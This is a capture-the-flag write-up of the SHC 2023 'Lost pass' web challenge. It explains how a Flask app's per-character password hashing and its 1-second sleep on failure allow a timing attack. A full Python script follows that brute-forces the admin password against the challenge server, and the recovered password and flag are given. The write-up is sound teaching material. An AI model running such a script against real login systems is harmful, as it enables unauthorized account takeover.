 ### Intro
Swiss hacking challenge is a swiss national CTF, made to select the best hackers for ECSC and other competitions. Although I am not swiss,
I wanted to know more about the /mnt/41n team, the friendly rivalry with France ( it seems to run many years back in ECSC circuit) and memes.

# SHC 2023 - Lost pass (WEB) 

## Description

Looks like somebody lost his password.

We are given website [source code](https://github.com/eqqn/eqqn.github.io/blob/master/uploads/lost_pass.zip) for the website. It's a python Flask application.

### Looking around
The frontend presents you a login form. The `register` buttons do not submit any data and we get HTTP 405 - Method not allowed. 
The /register API is defined in the source code provided, and I could register as a user, and receive a JWT token to toy with.

` curl -X POST hxxp://chall.m0unt41n.ch:31063/register -d 'username=USER&password=PASS' `

### Code analysis

There is a lot going on in this code, I was jumping around and doing all the wrong things initially. 

The goal is to login to the page as admin, as the template will render the flag, if you are logged in as admin.
``` python
    if user["username"] == "admin":
        return render_template('dashboard.html', message=f"Your secret is: {open('flag.txt', 'r').read()}")
    return render_template('dashboard.html', message=f"lettuce")
```



``` python
sys.set_int_max_str_digits(0)
app.config['SECRET_KEY'] = secrets.token_hex(20)
```
*set_int_max_str_digits(0)* did not run initially, needing python3.11. I commented it out and tried to run it locally, 
TLDR - its a DOS mitigation[1],[2], setting it at 0 does not affect integer calc and actually disables it. No relevance in integer(crypto?) operations.

The secret is generated on startup securely and hashcat will not even let you do a 16^20 search.

There are also some SQL queries done, but no luck there.
``` python
def error_log(username, password):
    if username == "admin":
        f = open("error.log", "w")
        time.sleep(1)  #this is kind of interesting...
        f.write(f"SOMEONE TRIED TO LOGIN AS ADMIN USING {password} !!!1!11!!")
        f.close()
    return False
```
This initially looked interesting, if we could inject into {password} variable. We can, but python f strings are solid enough. 
I got the application to run locally and tried passing python commands as password, but no luck. We will use the `time.sleep(1)` later!

``` python
@app.route('/dashboard', methods=['GET'])
@auth_required
def dashboard(token):
    user = db.getUserbyId(token["id"])
    if user["username"] == "admin":
        return render_template('dashboard.html', message=f"Your secret is: {open('flag.txt', 'r').read()}")
    return render_template('dashboard.html', message=f"lettuce")
```
the `user["username"] == "admin"` comparison is solid, creating "weird" usernames like `admin\n` or `admin[]` did not pass.

### The vulnerability
Perhaps obvious, but the password generation has a flaw (besides using md5)- it compares the hash of **each character** rather than the whole string... 
``` python
def check_password(username, hashed_password, password):
    hashed_password = hashed_password.split(",")
    for x in range(len(hashed_password)):
        try:
            if hash_char(password[x]) != hashed_password[x]:
                return error_log(username, password)
        except:
            return False
    return True
  
def hash_char(char):
    return hashlib.md5(char.encode()).hexdigest()[:20]
```
This opens the doors for a Timing Attack.  To confirm the theory, I tried comparing times of the first letter of the pass. 
I observed that with the first password character "d", the response time was short. If we did not provide another wrong character, 
then error ( and 1 second sleep!) is never performed. 

I wrote a script, tested locally, and I was able to recover my dummy secret. 

``` python
import requests
import time

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Connection': 'keep-alive'
}
charlist='1234567890abcdefghijklmnopqrstuvwxyz'
data = {'username': 'admin','password': 'a'}

def tracer(text):
    data = {'username': 'admin','password': text}
    start_time=time.time()
    response = requests.post('http://chall.m0unt41nD3w.ch:30902/login', headers=headers, data=data)
    duration=time.time() - start_time
    print( "%s--- %s seconds" %(text, duration))
    return duration

i=0
password=''
while True:
    letter=charlist[i]
    attempt=password+letter
    duration=tracer(attempt)
    i=i+1
    if duration <1: #good outcome
        time.sleep(0.1)
        duration=tracer(attempt)
        if duration < 1:
            password=attempt
            i=0
    time.sleep(0.1)
```
![Password recovery](https://eqqn.github.io/images/shc_lp_ducksnice.png)


I unleashed it on the challenge website and recovered the password for admin :
`ducksnice`

![flag](https://eqqn.github.io/images/shc_lp_flag.png)

Login and get the flag! 
shc{ducks_like_2_sleep_quack}


[1]https://github.com/python/cpython/issues/95778

[2]https://python-forum.io/thread-38185.html
